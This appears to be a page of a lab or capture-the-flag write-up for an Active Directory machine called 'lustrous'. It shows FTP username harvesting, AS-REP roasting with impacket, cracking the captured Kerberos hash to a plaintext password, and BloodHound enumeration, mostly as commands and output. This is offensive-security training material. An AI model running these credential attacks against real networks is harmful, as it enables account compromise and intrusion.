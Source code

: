     ftp> cd transfer
    250 CWD command successful.
    ftp> ls
    229 Entering Extended Passive Mode (|||50101|)
    125 Data connection already open; Transfer starting.
    12-26-21  11:51AM       <DIR>          ben.cox
    12-26-21  11:49AM       <DIR>          rachel.parker
    12-26-21  11:49AM       <DIR>          tony.ward
    12-26-21  11:50AM       <DIR>          wayne.taylor

users list

    ➜  lustrous cat ftp_users.txt | awk '{print $4}'
    ben.cox
    rachel.parker
    tony.ward
    wayne.taylor
    ➜  lustrous cat ftp_users.txt | awk '{print $4}' > users.txt

kerberoas

    lustrous impacket-GetNPUsers 'lustrous.vl/' -usersfile users.txt -dc-ip LUSDC
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    /usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
    $krb5asrep$23$ben.cox@LUSTROUS.VL:d87c28ea21e5833837de60b3c649667d$5c4761849aeaf1f0854692d80341125d89e599059811346b03085c9123f25bfde3e588618228b7342b2666de7dabedcab4de2cf4f694611237f2693f5047ceeea15e805fdab951ca2b36f2757182721905addb2e56df9eb2c8dd7590e5344d75c381d2ab22fcea051348d94f2c6e1791382db76ee94c83b7f70e99df90ceb58ddaffa5acf6bf250b5cbadb60ba979d34299506e1b535141a5909dddd0607ace8e2d5977c493ddab970a1ed7086098b59733581713e0f37e8e297c7a59d58444051e45828e18e61894bee41fd75f0408247134ffdad464ac02f411eee14c923c3dffbaefcdeeac7a5d015

crack hash

    ➜  lustrous john ben.cox_hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Trinity1         ($krb5asrep$23$ben.cox@LUSTROUS.VL)

full username list

    ➜  bloodhound bloodhound-python -c ALL -u 'ben.cox' -p 'Trinity1' -d lustrous.vl -ns 10.10.194.53

    ➜  bloodhound cat 20250117175000_users.json | jq -r '.data[].Properties.samaccountname' 
    null
    svc_db
    svc_web
    Cameron.Walsh
    Michelle.John
    Donna.Collins
    Colin.Dodd
    Iain.Evans
    Liam.Atkinson
    Allan.Parker
    Joanna.Harvey
    Mitchell.Fuller
    Ben.Cox
    Joanna.Hall
    Jeremy.Clark
    Tony.Ward
    Marian.Elliott
    Hugh.Wilkinson